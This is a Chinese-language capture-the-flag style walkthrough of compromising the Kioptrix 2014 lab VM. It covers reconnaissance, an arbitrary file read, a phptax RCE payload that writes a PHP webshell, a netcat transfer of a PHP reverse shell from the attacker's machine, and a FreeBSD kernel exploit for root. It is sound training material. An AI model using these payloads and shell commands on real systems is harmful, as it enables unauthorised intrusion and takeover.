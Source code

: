 # 一、信息收集

1. 这台靶机有点问题，启动前需要先将网卡删除然后重新添加，否则会获取不到ip。启动后先进行主机发现，如下，kali的ip是192.168.0.106，那么靶机应该就是107了
   
   ```shell
   sudo arp-scan -l
   ```
   
    ![1.png](./img/kioptrix_2014/1.png)

2. 端口扫描，开放了22、80、8080端口，web服务中间件为Apache httpd 2.2.21，系统为FreeBSD， mod_ssl版本为2.2.21，OpenSSL版本0.9.8q， PHP版本5.3.8
   
   ```shell
   nmap -Pn -sV -sC -T4 192.168.0.107
   ```
   
    ![2.png](./img/kioptrix_2014/2.png)

3. 扫描一下端口漏洞，没有扫出什么漏洞
   
   ```shell
   nmap --script=vuln 192.168.0.107
   ```
   
    ![3.png](./img/kioptrix_2014/3.png)

4. 访问一下各个端口
   
    ![4.png](./img/kioptrix_2014/4.png)
    ![5.png](./img/kioptrix_2014/5.png)

5. 扫描一下两个web端口的目录，都没有什么东西，F12看一下源码，发现80端口的一个注释
    ![6.png](./img/kioptrix_2014/6.png)

6. 访问一下这个URL，界面如下
    ![7.png](./img/kioptrix_2014/7.png)

7. 看起来像是显示文件的，随便点开一个看看，发现显示了源码，可能存在文件读取
    ![8.png](./img/kioptrix_2014/8.png)

8. 抓包，尝试读取/etc/passwd文件，如下，成功读取
    ![9.png](./img/kioptrix_2014/9.png)

9. 再次扫描一下http://192.168.0.107/pChart2.1.3/的目录，发现存在data目录
   ![10.png](./img/kioptrix_2014/10.png)

10. 访问data目录，发现存在目录遍历，该目录下存在两个db文件
    ![11.png](./img/kioptrix_2014/11.png)

11. 使用上面发现的文件读取获取db文件的内容，看不懂
    ![12.png](./img/kioptrix_2014/12.png)
    ![13.png](./img/kioptrix_2014/13.png)

12. 尝试读取apache的配置文件，FreeBSD下apache的配置文件默认路径是/usr/local/etc/apache22/httpd.conf，发现对8080端口做了UA头限制
    ![14.png](./img/kioptrix_2014/14.png)

13. 修改UA头，重新访问8080端口，发现一个目录
    ![15.png](./img/kioptrix_2014/15.png)

14. 访问该目录，似乎是一个生成PDF的
    ![16.png](./img/kioptrix_2014/16.png)

# 二、getshell

1. 点击一下URL就变成了192.168.0.107:8080/phptax/index.php?pfilez=1040pg1.tob&pdf=make，有两个参数，尝试修改参数值，看是否可控，经测试发现无回显，开启nc，尝试直接反弹shell，可能操作姿势有问题，没成功，使用searchsploit搜索phptax，发现一个符合条件的exp
     ![17.png](./img/kioptrix_2014/17.png)

2. 利用rce漏洞通过浏览器hackbar插件写入一个webshell
   
   ```shell
   http://192.168.0.107:8080/phptax/drawimage.php?field=test.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E";
   ```
   
     ![18.png](./img/kioptrix_2014/18.png)

3. 访问shell文件，成功执行命令，权限为www，比较低
     ![19.png](./img/kioptrix_2014/19.png)

4. 将php反向shell复制出来，修改ip和端口
   
   ```shell
    cp /usr/share/laudanum/php/php-reverse-shell.php /home/kali/vuln
   ```
   
    ![20.png](./img/kioptrix_2014/20.png)

5. 使用以下命令设置 Netcat 侦听器并将 PHP 反向 shell 的内容发送到任何传入请求
   
   ```shell
   nc -lvnp 4444 < php-reverse-shell.php
   ```
   
    ![21.png](./img/kioptrix_2014/21.png)

6. 在靶机上运行以下Netcat 命令连接到侦听器并将数据重定向到 php-reverse-shell.php 文件
   
   ```shell
   nc 192.168.0.106 4444 > php-reverse-shell.php
   ```
   
    ![22.png](./img/kioptrix_2014/22.png)

7. 访问data的目录遍历，看php-reverse-shell.php文件是否已经被成功下载了
    ![23.png](./img/kioptrix_2014/23.png)

8. 访问php-reverse-shell.php文件执行其中的反弹shell命令，如下，成功获取shell
    ![24.png](./img/kioptrix_2014/24.png)

# 三、权限提升

1. uname -a查看系统内核版本，是FreeBSD 9.0内核的
     ![25.png](./img/kioptrix_2014/25.png)

2. 搜索该版本内核漏洞，发现存在两个漏洞
     ![26.png](./img/kioptrix_2014/26.png)

3. 将exp脚本复制出来，通过nc上传到靶机，通过shell文件执行pwd命令得知web路径
     ![27.png](./img/kioptrix_2014/27.png)

4. cd到web路径，gcc编译exp脚本，然后执行编译好的exp二进制可执行文件，如下，成功获取root权限
    ![28.png](./img/kioptrix_2014/28.png)
